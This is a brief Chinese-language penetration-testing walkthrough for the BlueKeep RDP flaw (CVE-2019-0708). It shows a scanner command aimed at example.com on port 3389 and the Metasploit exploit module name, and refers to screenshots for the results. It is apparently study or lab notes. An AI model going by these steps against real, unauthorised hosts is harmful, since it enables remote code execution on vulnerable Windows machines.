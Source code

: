 远程桌面服务远程执行代码漏洞。

## 1 漏洞检测

使用 RDP 漏洞无损扫描器 [0708detector.exe](https://github.com/Pa55w0rd/CVE-2019-0708?tab=readme-ov-file#cve-2019-0708-批量检测) 对目标进行漏洞检测

```shell
PS D:\downloads\CVE-2019-0708-master> .\0708detector.exe -t example.com -p 3389
```

![使用 RDP 漏洞无损扫描器对目标进行漏洞检测](./../../../../image/CVE-2019-0708/%E4%BD%BF%E7%94%A8%20RDP%20%E6%BC%8F%E6%B4%9E%E6%97%A0%E6%8D%9F%E6%89%AB%E6%8F%8F%E5%99%A8%E5%AF%B9%E7%9B%AE%E6%A0%87%E8%BF%9B%E8%A1%8C%E6%BC%8F%E6%B4%9E%E6%A3%80%E6%B5%8B.png)

## 2 漏洞利用

使用 Metasploit-Framework 的 Exploit `windows/rdp/cve_2019_0708_bluekeep_rce` 进行漏洞利用

```shell
msf6 > use exploit windows/rdp/cve_2019_0708_bluekeep_rce
```

![使用 Metasploit-Framework 进行漏洞利用](./../../../../image/CVE-2019-0708/%E4%BD%BF%E7%94%A8%20Metasploit-Framework%20%E8%BF%9B%E8%A1%8C%E6%BC%8F%E6%B4%9E%E5%88%A9%E7%94%A8.png)

---

References

- [CVE-2019-0708](https://www.cve.org/CVERecord?id=CVE-2019-0708)
